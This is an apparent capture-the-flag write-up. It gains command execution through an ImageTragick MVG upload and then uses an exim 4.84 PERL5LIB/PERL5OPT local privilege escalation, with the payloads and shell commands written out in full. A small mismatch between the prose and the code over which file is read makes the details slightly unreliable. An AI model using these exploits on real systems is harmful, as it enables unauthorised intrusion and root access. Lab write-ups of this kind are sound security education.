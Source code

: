 # Realist

## Imagic

In this challenge, we have the site which allows for the files (pdf, jpg and mvg) to be uploaded and converted to another format. As the ImageMagic is used on the site, we can use the "ImageTragic" exploit to achive code execution on the system.

To test if the command execution work on the site, I've created a simple file which contained:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";ls")'
pop graphic-context
```

the `ls` is the part where any command can be run. As this worked, I've started standard scoping to find the privesc

the `cat /etc/passwd` showed user called `john`

in John's home directory we found a file called `exim4.conf.template` what indicates that exim4 is running on the system. 

Using `which exim` we could locate the program's location (`/usr/sbin/exim`) and then check the version by using `/usr/sbin/exim --version`. The version running on the system is `4.84 #2 built`.

Based on that we found the Local Privilege Escalation vulnerability `https://www.exploit-db.com/exploits/39535` 

As we didnt have a proper shell, the easiest way to deliever the payload was to create a `.pl` file on the system using previoustly found command execution and then run it using previoustly discovered vulnerability 

The payload whill read the `/pass` file and output its content to the `/tmp/pass.txt`

```
package root;
use strict;
use warnings;

system("cat /passwd > /tmp/pass.txt");
```

As the file contain multiple line brakes, we base64 encoded the payload for easier transfer

`cGFja2FnZSByb290Owp1c2Ugc3RyaWN0Owp1c2Ugd2FybmluZ3M7CgpzeXN0ZW0oImNhdCAvcGFzc3dkID4gL3RtcC9wYXNzLnR4dCIpOw==`

Then we passwed the payload to the victim's machine using below command.

`echo "cGFja2FnZSByb290Owp1c2Ugc3RyaWN0Owp1c2Ugd2FybmluZ3M7CgpzeXN0ZW0oImNhdCAvcGFzc3dkID4gL3RtcC9wYXNzLnR4dCIpOw==" > /tmp/root.base64`

After confirming that the file was created, I decoded the content of the file and saved it to the new file using this command:
`cat /tmp/root.base64 | base64 -d > /tmp/root.pm`

Then I just run the payload file uning below comand:

`PERL5LIB=/tmp PERL5OPT=-Mroot /usr/sbin/exim -ps`

If everything worked well, we should be able to find a new file in the /tmp directory called `pass.txt` which contains the flag
